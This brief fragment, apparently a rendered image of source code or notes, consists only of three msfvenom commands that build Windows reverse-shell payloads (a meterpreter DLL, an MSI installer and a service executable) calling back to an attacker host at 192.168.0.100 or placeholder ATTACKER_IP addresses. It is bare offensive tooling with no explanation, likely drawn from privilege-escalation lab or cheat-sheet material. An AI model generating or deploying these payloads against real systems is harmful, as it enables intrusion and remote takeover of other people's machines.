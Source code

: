 msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.100 LPORT=4444 -f dll -o ~/Desktop/share/malicious.dll 

msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi

msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe